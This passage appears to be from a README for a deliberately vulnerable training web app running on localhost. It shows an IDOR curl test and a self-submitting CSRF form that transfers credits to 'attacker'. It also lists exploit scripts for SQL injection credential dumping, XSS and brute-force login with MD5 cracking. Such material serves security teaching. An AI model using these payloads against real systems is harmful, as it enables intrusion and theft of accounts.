 #### IDOR Test
```bash
# Access other users' orders (requires valid session)
curl -b "sessionid=your-session-id" \
  "http://localhost:8000/order/ORD-XXXXX-XXXXX/"
```

#### CSRF Test
```html
<!-- Save as csrf_test.html and open in browser while logged in -->
<form action="http://localhost:8000/transfer-credits/" method="POST">
  <input type="hidden" name="recipient" value="attacker">
  <input type="hidden" name="amount" value="100">
</form>
<script>document.forms[0].submit();</script>
```

## Exploitation Tools

Ready-to-use exploitation scripts are provided in `scripts/exploits/`:

### 1. SQL Injection Exploit
```bash
python scripts/exploits/sql_injection_exploit.py
```
Features:
- Automated vulnerability detection
- Database extraction
- User credential dumping
- Table enumeration

### 2. XSS Exploit
```bash
python scripts/exploits/xss_exploit.py
```
Features:
- Reflected XSS testing
- Stored XSS payloads
- PoC page generation
- Various payload types

### 3. Authentication Exploit
```bash
python scripts/exploits/auth_exploit.py
```
Features:
- User enumeration
- Brute force attacks
- Timing attack analysis
- MD5 hash cracking

## Documentation
